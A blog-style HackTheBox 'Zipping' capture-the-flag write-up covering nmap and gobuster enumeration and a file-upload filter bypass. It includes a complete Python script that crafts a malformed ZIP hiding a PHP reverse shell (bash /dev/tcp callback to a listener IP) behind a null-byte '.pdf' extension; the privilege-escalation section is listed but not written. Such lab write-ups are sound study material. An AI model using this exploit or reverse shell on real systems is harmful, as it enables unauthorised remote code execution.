 ```yaml
---
title: HTB Zipping
date: 2023-12-13 02:39:40 +/-TTTT
categories: [learning, web]
tags: [learning]     # TAG names should always be lowercase
---
```


## **<span style='color:#ff5555'>Zipping</span>**

Welcome to my another writeup! In this HackTheBox [Zipping] machine, you'll learn: Content discovery via `gobuster Or anything`, exploiting file upload vulnerbility & extension filter bypass.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Table of Content

1. **[Service Enumeration](#service-enumeration)**
2. **[Initial Foothold](#initial-foothold)**
3. **[Privilege Escalation:](#privilege-escalation)**
4. **[Conclusion](#conclusion)**

## Background

![Alt Text](/assets/images/htb/zipping.png)

## Service Enumeration

**Create 2 environment variables for future use:**
```shell
k0r3k@k0r3k ~/cybersec/htb/machine/zipping$ export RHOSTS=10.10.11.229

k0r3k@k0r3k ~/cybersec/htb/machine/zipping$ 
export LHOST=ifconfig tun0 | grep -E 'inet [0-9]+\.[0-9]+\.[0-9]+\.[0-9]' | cut -d' ' -f10
```

As usual, scan the machine for open ports via `nmap`!

**nmap:**
```shell
k0r3k@k0r3k ~/cybersec/htb/machine/zipping$ nmap -sC -sV -T4 -A --vv $ip -oN nmap_day

Result :
Discovered open port 22/tcp on 10.10.11.229
Discovered open port 80/tcp on 10.10.11.229

PORT     STATE    SERVICE REASON      VERSION
22/tcp   open     ssh     syn-ack     OpenSSH 9.0p1 Ubuntu 1ubuntu7.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 9d:6e:ec:02:2d:0f:6a:38:60:c6:aa:ac:1e:e0:c2:84 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBP6mSkoF2+wARZhzEmi4RDFkpQx3gdzfggbgeI5qtcIseo7h1mcxH8UCPmw8Gx9+JsOjcNPBpHtp2deNZBzgKcA=
|   256 eb:95:11:c7:a6:fa:ad:74:ab:a2:c5:f6:a4:02:18:41 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOXXd7dM7wgVC+lrF0+ZIxKZlKdFhG2Caa9Uft/kLXDa
80/tcp   open     http    syn-ack     Apache httpd 2.4.54 ((Ubuntu))
|_http-title: Zipping | Watch store
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.54 (Ubuntu)
3945/tcp filtered emcads  no-response
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Now, we can perform content discovery using tools like gobuster to find hidden directories and files:

```shell
k0r3k@k0r3k ~/cybersec/htb/machine/zipping$
gobuster dir -u http://10.10.11.229/ -w /home/k0r3k/cybersec/exploit/tools/SecLists/Discovery/Web-Content/raft-large-files-lowercase.txt -t 40
```

- Found directory: **`/upload.php `**

Here we can see that we have to upload a zip file containing a pdf, with this scenario we can identify a zip flip attack.

I made it in python so it can be reviewed

```python
from struct import pack
import argparse
import zlib
import requests

parser = argparse.ArgumentParser(description='Exploit Zipper')
parser.add_argument('-L', '--listener_ip', help='listener ip')
parser.add_argument('-R', '--target_ip', help='target ip')
args = parser.parse_args()

filename1 = b'rev.php.pdf'
filename2 = b'rev.php\x00.pdf'

filecontent = b"""<?php system("bash -c 'bash -i >& /dev/tcp/"""+args.listener_ip.encode()+b"""/9001 0>&1'"); ?>"""
length = len(filecontent)
crc = zlib.crc32(filecontent)


p  = b''
p += b'\x50\x4b\x03\x04' # magic bytes
p += b'\x14\x00' # version
p += b'\x00\x00' # flags
p += b'\x00\x00' # compression
p += b'\x48\xb9' # modtime
p += b'\x1b\x57' # moddate
p += pack("<L", crc) # crc
p += pack("<L", length) # compressed size
p += pack("<L", length) # uncompressed size
p += pack("<H", len(filename1)) # filename len
p += b'\x00\x00' # extra field len
p += filename1
p += filecontent

# central directory
cd  = b''
cd += b'\x50\x4b\x01\x02' # magic bytes
cd += b'\x14\x03' # version
cd += b'\x14\x00' # version needed
cd += b'\x00\x00' # flags
cd += b'\x00\x00' # compression
cd += b'\x48\xb9' # modtime
cd += b'\x1b\x57' # moddate
cd += pack("<L", crc) # crc
cd += pack("<L", length) # compressed size
cd += pack("<L", length) # uncompressed size
cd += pack("<H", len(filename2)) # filename len
cd += b'\x00\x00' # extra field len
cd += b'\x00\x00' # file comm. len
cd += b'\x00\x00' # disk start
cd += b'\x00\x00' # internal attr.
cd += b'\x00\x00\xA4\x81' # external attr
cd += b'\x00\x00\x00\x00' # offset of local header
cd += filename2

# end of centryl directory record
ecd  = b''
ecd += b'\x50\x4b\x05\x06' # magic bytes
ecd += b'\x00\x00' # disk number
ecd += b'\x00\x00' # disc # w/cd
ecd += b'\x01\x00' # disc entries
ecd += b'\x01\x00' # total entries
ecd += pack("<L", len(cd)) # central directory size
ecd += pack("<L", len(p))
ecd += b'\x00\x00'

f = open("rev.zip", "wb")
f.write(p+cd+ecd)
```

## And Get the shell And root, eNJOY tHE Game.

# **<span style='color:#ff5555'>DISCLAIMER</span>**
```
This cheatsheet is intended to guide CTF players in their research. This cheatsheet, and its content does match with the creation of an interesting challenges 😉.
```